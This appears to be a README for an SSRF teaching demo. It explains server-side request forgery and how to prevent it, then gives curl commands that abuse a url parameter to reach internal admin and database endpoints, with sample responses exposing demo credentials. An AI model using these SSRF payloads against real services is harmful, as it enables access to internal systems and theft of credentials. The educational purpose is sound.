 # What is SSRF?

Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network.
Typical exploitation of a server-side request forgery vulnerability

In a typical SSRF scenario, an external attacker who wants to access an internal server can’t use direct requests because they would be blocked by the firewall. Instead, malicious actors can exploit an SSRF vulnerability to make their attack via a vulnerable web server:


![SSRF](ssrf.png)


### Steps :
* The attacker sends a forged request to a web server that is vulnerable to SSRF and resides on the same internal network as the target server.
* The vulnerable web server sends the attacker-controlled request to the victim’s server, bypassing the firewall.
* The victim’s server responds to the web server with the requested data.
If the specific SSRF vulnerability permits it, the data is sent back to the attacker. In most cases, the attacker will need to exfiltrate or infer this information by other means (out-of-band).


## Why is server-side request forgery dangerous?
While many web vulnerabilities directly affect the target system, SSRF allows attackers to use the target as an intermediary that passes requests to a third system. So while an SSRF attack might not be damaging in itself, it can provide malicious hackers with access to internal systems that were never supposed to be accessible from the Internet. There are several reasons why this is dangerous.

### Prevent:
To prevent SSRF vulnerabilities in web applications, it is recommended to adhere to the following guidelines:
* Use a whitelist of allowed domains, resources and protocols from where the web server can fetch resources.
* Any input accepted from the user should be validated and rejected if it does not match the positive specification expected.
* If possible, do not accept user input in functions that control where the web server can fetch resources.

## Example

We have created three service for demo purpose

1. **public-web-service** : This service is exposed on internet. Running on port **8080**
2. **internal-user-service** : This service is not exposed to internet but the resources can be accessible by **public web server** . Running on port **8081**
3. **internal-admin-service** : This service is not exposed to internet. Attacker will try to access this service and retrive sensitive data by ssrf attack. Running on port **8083**

![Private server](SSRF_new.jpg)

To explain the impact, 
consider that the server we’re running with our (IP address 10.0.0.3) is within a network with another server: internal-admin-service (IP address 10.0.0.2). 
The internal-admin-service server serves a site on port 8083 without any authentication. 
The router (10.0.0.1) routes all the internal traffic to the internet. 
For this example, there aren’t any firewall rules for traffic between internal servers. 

The internal-admin-service server cannot be reached from the internet. The public web server can be reached at web-server.com.

We know that our web server, 10.0.0.3, processes the requests we send to it. 
Now let’s see what happens when we request the internal-admin-service server through the web server:

# Attack

**Attacker will try to scan multiple ports via changing port number in url like below and he founds `8083` is reachable port.
He will try to get `adminDetail` using below endpoint.**


### Admin Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/adminDetail
```

```json
{'username':'admin','password':'OhMyGod@123'}
```

### Db Sensitive Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/dbDetail
```

```json
{'dbName':'controller','host':'10.0.1.35','username':'root', 'password':'XSuper@#12345', 'port':'5432'}
```

Since the public web server can actually reach 10.0.0.2, the internal internal-admin-service server, it’ll send an HTTP request to it and then reflect the response to the outside world. 
You could compare it to a web proxy, but abused to proxy external traffic to internal services and vica versa.


In a internal user service, we have a userdetails endpoint which will provide user related basic information.

### Get User Information
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userDetail/0
```
### Response
```json
{'name':'User-0','id':'0'}
```

### Get User Address
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userAddress/0
```

### Response
```json
{'address':'Ahmedabad, India','id':'0'}
```

curl localhost:8080/management/mappings

**Useful Links**
https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf


